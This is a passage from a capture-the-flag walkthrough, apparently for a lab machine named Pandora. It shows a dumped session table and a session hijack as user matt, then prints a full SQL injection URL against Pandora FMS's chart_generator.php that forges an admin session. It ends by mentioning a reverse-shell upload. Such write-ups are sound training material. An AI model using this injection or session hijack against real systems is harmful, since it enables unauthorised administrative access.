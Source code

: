 ```bash
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                | 1638795315  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                | 1638786277  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                | 1638786349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                | 1638540345  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |
| jujjvuolqai75a9glu9qf0r3qe | NULL                                                | 1678787413  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                | 1638787808  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                | 1638796348  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |
+----------------------------+-----------------------------------------------------+-------------+

```

We can see the session `g4e01qdgk36mfdh90hvcc54umq` is used by matt, so let's navigate to pandora and replace our current session with this one.

![](8.png)

We're logged in as matt but we can't do a lot of things.

While reasearching for vulnerabilities in this app i came accross this [article](https://sploitus.com/exploit?id=100B9151-5B50-532E-BF69-74864F32DB02) showcasing how to get admin access by doing a sql injection.

```url
http://pandora.panda.htb:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a
```

By navigating to the url above, we make a sql injection that sets out current session to an admin session.

Now we can reload `pandora.panda.htb/pandora_console` and we should be logged in as admin.

![](9.png)

Now we got to file manager and upload a reverse shell.
